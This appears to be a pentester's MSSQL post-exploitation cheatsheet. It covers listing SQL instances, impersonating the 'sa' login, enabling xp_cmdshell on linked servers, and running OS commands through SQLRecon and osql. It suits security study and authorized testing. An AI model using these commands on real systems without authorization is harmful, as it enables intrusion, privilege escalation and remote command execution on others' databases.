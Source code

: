 # MSSQL Cheatsheet

PE can use `PowerUpSQL.ps1` in post exp.

## list sqlserver

```powershell
PS C:\mane> sqlcmd -L

Servers:
    ;UID:Login ID=?;PWD:Password=?;Trusted_Connection:Use Integrated Security=?;*APP:AppName=?;*WSID:WorkStation ID=?;


# OR
PS C:\mane> Get-SqlInstance
```

## Query

```powershell
PS C:\mane> sqlcmd -q "SELECT @@version"
``

```sql
# List Databases
"SELECT name FROM master..sysdatabases;"

```

## Check server link

```
EXEC sp_linkedservers;

select * from openquery("WEB\CLIENTS", 'SELECT name FROM master..sysdatabases;')
```

With `PowerUPSql.ps1`, [CheatSheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet).

```
Get-SQLInstanceLocal -Verbose
```


## Connect Server link

```
EXECUTE AS LOGIN  = 'sa';

EXECUTE ('SELECT @@servername;') at [SQLSERVER2] ;
```


## Enable xpshell to linking server

```
EXECUTE AS LOGIN  = 'sa';
EXECUTE ('EXEC sp_configure ''Show Advanced Options'', 1') at [SQLSERVER2] ;
EXECUTE ('RECONFIGURE') at [SQLSERVER2] ;
EXECUTE ('EXEC sp_configure ''xp_cmdshell'', 1') at [SQLSERVER2];
EXECUTE ('RECONFIGURE') at [SQLSERVER2] ;
EXECUTE ('EXEC master..xp_cmdshell ''whoami''') at [SQLSERVER2] ;
```

## Using SQLRecon Tools with link

Sometimes SQLRecon.exe have some problem with code execute.

```
.\SQLRecon.exe /a:WinToken /h:127.0.0.1 /l:xxx.xxx.local /m:lXpCmd /c:'command'

```

## osql enable cmdshell with link

```
osql -E -S "<LOCAL_HOSTNAME>" -Q "EXECUTE('sp_configure''xp_cmdshell'',1;RECONFIGURE;') AT [<remote.manesec.local>]"

osql -E -S "<LOCAL_HOSTNAME>" -Q "EXECUTE('xp_cmdshell whoami') AT [<remote.manesec.local>];"
osql -E -S "<LOCAL_HOSTNAME>" -Q "EXECUTE('xp_cmdshell ''mkdir C:\mane''') AT [<remote.manesec.local>];"

```